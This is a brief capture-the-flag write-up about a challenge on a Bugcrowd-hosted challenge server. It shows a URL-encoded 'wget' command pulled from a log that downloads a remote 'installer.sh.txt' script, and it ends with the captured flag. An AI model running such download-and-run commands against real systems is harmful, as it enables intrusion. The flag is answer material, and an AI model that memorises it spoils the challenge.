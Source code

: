 ```yaml
---
ai_date: '2025-04-27 05:13:51'
ai_summary: Executed `wget` command with a URL from the log, likely leading to command
  injection vulnerability.
ai_tags:
- cmd-injection
created: 2024-08-08T09:50
points: 75
updated: 2024-08-17T20:14
---
```


Just by chance, when cleaning up the log file with `replace`, I ended up on a `cmd`.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1723125446/2024/08/8896d79a0f95c9011d5e608e8c696db5.png)

```
wget+https%3A%2F%bugcrowd-leaked.chals.io%2Ff8b7c5a3-9e1d-4f6b-8d2a-3c4e5f6a7b8c%2Finstaller.sh.txt

https://bugcrowd-leaked.chals.io/f8b7c5a3-9e1d-4f6b-8d2a-3c4e5f6a7b8c/installer.sh.txt
```

```flag
flag{Blu3_DA_b@_d3E_d@_ba>d1$%^$%}
```